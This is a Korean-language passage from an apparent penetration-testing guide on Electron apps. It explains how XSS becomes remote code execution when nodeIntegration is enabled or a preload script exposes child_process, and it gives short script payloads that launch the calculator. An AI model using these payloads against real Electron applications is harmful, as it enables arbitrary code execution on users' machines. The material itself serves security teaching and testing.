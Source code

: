 ## RCE: XSS + nodeIntegration

만약 **nodeIntegration**이 **on**으로 설정되어 있다면, 웹 페이지의 JavaScript는 `require()`를 호출함으로써 쉽게 Node.js 기능을 사용할 수 있습니다. 예를 들어, Windows에서 calc 애플리케이션을 실행하는 방법은 다음과 같습니다:
```html
<script>
require('child_process').exec('calc');
// or
top.require('child_process').exec('open /System/Applications/Calculator.app');
</script>
```
<figure><img src="../../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

## RCE: preload

이 설정에 표시된 스크립트는 렌더러에서 다른 스크립트보다 **먼저 로드**되므로 **Node API에 무제한 액세스**가 가능합니다:
```javascript
new BrowserWindow{
webPreferences: {
nodeIntegration: false,
preload: _path2.default.join(__dirname, 'perload.js'),
}
});
```
따라서, 스크립트는 노드 기능을 페이지로 내보낼 수 있습니다:

{% code title="preload.js" %}
```javascript
typeof require === 'function';
window.runCalc = function(){
require('child_process').exec('calc')
};
```
{% code title="index.html" %}
```html
<body>
<script>
typeof require === 'undefined';
runCalc();
</script>
</body>
```
{% endcode %}

{% hint style="info" %}
**`contextIsolation`이 켜져 있으면 작동하지 않습니다.**
{% endhint %}

## RCE: XSS + contextIsolation

_**contextIsolation**_은 **웹 페이지 스크립트와 JavaScript Electron의 내부 코드 간에 분리된 컨텍스트**를 도입하여 각 코드의 JavaScript 실행이 서로에게 영향을 주지 않도록 합니다. 이는 RCE 가능성을 제거하기 위한 필수 기능입니다.
